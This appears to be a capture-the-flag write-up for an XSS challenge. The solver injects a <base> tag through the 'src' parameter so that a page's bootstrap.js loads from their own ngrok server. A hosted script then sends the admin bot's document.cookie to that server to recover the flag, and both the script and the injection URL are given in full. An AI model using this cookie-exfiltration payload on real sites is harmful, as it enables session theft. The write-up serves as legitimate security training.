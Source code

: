 ### Question

> Name: Xo So So
> 
> Couldn't get the question and CTF ended :\
> 
> Points: 500
> 
> Solves: ~10

### Solution

- We know it's XSS because the question name and description told us

- We found the admin bot request send page at /report which is good

- ![](./assets/2022-11-26-20-14-10-image.png)

- ![](./assets/2022-11-26-20-14-29-image.png)

- the XSS payload is pushed using the `src` GET param

- ![](./assets/2022-11-26-20-14-50-image.png)

- ![](./assets/2022-11-26-20-15-13-image.png)

- At the end of the page we see a script loading `/assets/js/bootstrap.js`which means we can redirect that to our server by using a `base`element to make all local urls use our vuln server

- ![](./assets/2022-11-26-20-15-27-image.png)

- The admin gave us a hint that the flag is in the cookies

- So we craft the server by creating `/assets/js/bootstrap.js` file with this code 

- ```js
  location.href = `http://82f5-2a01-9700-1353-e600-a450-3321-262f-eaf4.eu.ngrok.io/${document.cookie}`
  ```

- Now we craft the url payload

- ```js
  http://3.90.185.122:8080/index.php?src='><base href='http://82f5-2a01-9700-1353-e600-a450-3321-262f-eaf4.eu.ngrok.io'>
  ```

- This means that the bot when visiting that page with the crafted payload it will load our vuln bootstrap script and make another request to out server with the cookie values

- VOILAAA!!!

- ![](./assets/2022-11-26-20-08-33-image.png)

- The flag was `FLAG{CSP_W1Th_BaSE_Is_GooD_C0mBo}`
